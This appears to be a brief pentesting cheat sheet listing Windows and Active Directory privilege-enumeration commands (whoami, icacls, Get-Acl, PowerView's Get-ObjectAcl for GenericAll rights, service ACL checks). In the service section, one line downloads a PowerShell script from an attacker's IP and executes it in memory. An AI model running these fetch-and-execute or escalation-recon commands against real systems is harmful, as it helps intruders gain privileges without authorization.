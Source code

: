 User privilege
```
whoami /priv
```

Check files/directories privilege
```
icacls <FILE/DIR>
Get-Acl -Path <PATH_NAME> | fl
Get-Acl -Path "C:\Program Files (x86)\Zero Tier\Zero Tier One\" | Format-List
```

Check Object privilege
```
Get-ObjectAcl -Identity <Object> | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```

Check Service privilege
```
<SERVICE> | Get-ServiceAcl | select -ExpandProperty Access

IEX (IWR http://10.8.101.15/WENUM/get-serviceacl.ps1 -UseBasicParsing);"zerotieroneservice" | Get-ServiceAcl | select -ExpandProperty Access
```

